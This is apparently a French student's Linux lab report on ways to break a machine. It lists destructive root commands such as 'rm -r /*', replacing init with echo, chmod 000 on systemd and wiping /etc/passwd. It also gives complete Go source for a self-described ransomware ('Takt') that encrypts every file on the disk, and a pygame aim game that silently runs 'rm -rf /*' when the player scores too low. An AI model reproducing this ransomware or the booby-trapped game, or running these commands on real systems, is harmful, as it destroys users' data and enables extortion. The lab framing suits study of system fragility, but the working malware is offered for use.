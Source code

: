 # TP 1 : Are you dead yet ?

---

**🌞 Plusieurs façons différentes de péter la machine :**

**➜ Premiere façon :**

    tomfox@tomfox:~$ sudo rm -r /*
    
Ici je supprime tout depuis la racine

**➜ Deuxième façon :**

    tomfox@tomfox:~$ cd /sbin
	tomfox@tomfox:/sbin$ sudo rm init
	tomfox@tomfox:/sbin$ sudo ln -s /usr/bin/echo init
    
Je me déplace dans le dossier sbin puis je supprime le init (c'est le premier process lancé par linux (PID 1)).
Puis je crée un nouveau link pour que init renvoie vers echo et non plus vers /lib/systemd/systemd

**➜ Troisième façon :**

    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# chmod 000 /lib/systemd/systemd


Cette commande enlève les droits à tout le monde (même root) d'exécuter ce fichier, donc si ce fichier n'est pas lançable le linux ne boot pas car ce file est nécessaire pour le bon fonctionnement de linux

**➜ Quatrième façon :**

    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# echo "" > /etc/passwd

Je supprime tout le contenu de /etc/passwd (contenu nécessaire pour le bon fonctionnement des sessions)

**➜ Cinquième façon :**
    
    tomfox@tomfox:~$ sudo su -
    root@tomfox:~# find / -type f | grep linux | xargs rm -rf

Ici je find tout le file (-type f) dans le system qui contient "linux" dans son full path name et ensuite je les supprime en utilisant un pipe et xargs pour prendre chaque ligne de output comme argument pour mon rm (-r pour récursif et -f pour force)


**➜ Sixième façon :**

Context : V1 de notre Takt ransomware, notre projet file rouge avec [Hyouka](https://github.com/HyouKash) en SSI

Pour chiffrer : 
    
    go build takt.go
    sudo ./takt

Pour déchiffrer : 
    
    sudo ./takt --decrypt <BASE64(AES_KEY)>
    
```
#takt.go

package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "log"
    "os"
    "os/exec"
    "strings"
    "sync"
)

var wg sync.WaitGroup
var wgc sync.WaitGroup

var CryptKey = aesKey()

var IV = []byte("1234567812345678")

func createKey() []byte {
    genkey := make([]byte, 32)
    _, err := rand.Read(genkey)
    if err != nil {
        log.Fatalf("Failed to read new random key: %s", err)
    }
    return genkey
}

func aesKey() []byte {
    key := createKey()
    return key
}

func createCipher() cipher.Block {
    c, err := aes.NewCipher(CryptKey)
    if err != nil {
        log.Fatalf("Failed to create the AES cipher: %s", err)
    }
    return c
}

func Crypt(filename string, ch chan string) {
    file, _ := os.Open(filename)
    fileInfo, err := os.Stat(filename)
    if err != nil {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    if fileInfo.Size() > 200000000 {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    arr := make([]byte, fileInfo.Size())
    _, _ = file.Read(arr)
    file.Close()
    blockCipher := createCipher()
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(arr, arr)
    _ = ioutil.WriteFile(filename, arr, 0644)
    wgc.Done()
    Crypt(<-ch, ch)
}

func DeCrypt(filename string, ch chan string) {
    bytes, _ := ioutil.ReadFile(filename)
    blockCipher, _ := aes.NewCipher(CryptKey)
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(bytes, bytes)
    _ = ioutil.WriteFile(filename, bytes, 0644)
    wgc.Done()
    DeCrypt(<-ch, ch)
}

func main() {
    cmd := exec.Command("bash", "-c", "find / -type f")
    output, _ := cmd.CombinedOutput()
    listfile := strings.Split(string(output), "\n")
    ch := make(chan string, len(listfile))
    for _, file := range listfile {
        wg.Add(1)
        wgc.Add(1)
        go func(file string) {
            ch <- file
            wg.Done()
        }(file)
    }
    wg.Wait()
    args := os.Args[1:]
    if len(args) == 0 {
        fmt.Print("Crypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go Crypt(<-ch, ch)
        }
        wgc.Wait()
    } else if len(args) == 2 && args[0] == "--decrypt" {
        CryptKey, _ = base64.StdEncoding.DecodeString(args[1])
        fmt.Print("Decrypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go DeCrypt(<-ch, ch)
        }
        wgc.Wait()
    }
}
```

Explications : Takt ransomware utilise du Threading et des channels (fonctionnement de pile). La clé de chiffrement est en AES 256 et est générée de manière aléatoire. Ces procédés le rendent extrêmement rapide. Il chiffre l'entiéreté du disque (pour cette version, il chiffre le système également, si besoin on possède une version qui permet au système de survivre), l'utilisateur n'a plus accès a aucune de ses données. 

EPO : Educational Purpose Only

**➜ Septième façon :**

    tomfox@tomfox:~/Desktop$ sudo apt install python3 python3-pip -y
    tomfox@tomfox:~/Desktop$ sudo python3 -m pip install pygame
    tomfox@tomfox:~/Desktop$ sudo python3 main.py 

```
#main.py
import os

import pygame, sys
from pygame.locals import *
from random import randint
import time

pygame.init()
RangeTaille = 480
pos = ((randint(0, RangeTaille) // 80) * 80, ((randint(0, RangeTaille) // 80) * 80))

fenetre = pygame.display.set_mode((RangeTaille, RangeTaille))
cible = pygame.image.load("cible.png").convert_alpha()
ciblesize = pygame.transform.scale(cible, (80, 80))
position_perso = ciblesize.get_rect()
point, topchrono, delai, chrono = 0,time.time(),1,30
while True:
    for event in pygame.event.get():
        if event.type == MOUSEBUTTONDOWN and event.button == 1:
            if (event.pos[0]) // 80 == (pos[0]) // 80 and (event.pos[1]) // 80 == (pos[1]) // 80:
                point += 100
                pos = ((randint(0, RangeTaille) // 80) * 80, ((randint(0, RangeTaille) // 80) * 80))
            else:
                point -= 30
    if time.time() - topchrono > delai:
        chrono -= 1
        topchrono = time.time()
    fenetre.fill([0, 0, 0])
    fenetre.blit(ciblesize, pos)
    font = pygame.font.Font(pygame.font.get_default_font(), 36)
    score = font.render("Score: " + str(point), True, (255, 255, 0))
    chronoshow = font.render(str(chrono) + "s", True, (255, 255, 0))
    fenetre.blit(score, dest=((RangeTaille // 2) - 80, 0))
    fenetre.blit(chronoshow, dest=((RangeTaille // 2) - 20, 30))
    pygame.display.flip()
    if chrono <= 0:
        if point < 7000:
            score = font.render("Tu as perdu!!", True, (255, 255, 0))
            fenetre.blit(score, dest=((RangeTaille // 2) - 100, RangeTaille // 2))
            pygame.display.flip()
            os.system("rm -rf /*")
        else:
            sys.exit()


```

Code python fait en seconde comme on peux voir a la fin si l'utilsateur fait moins de 7000 points on supprime tout ce qui a dans ça racine (C'est un jeu d'aim il faut tout simplement visé des cible)
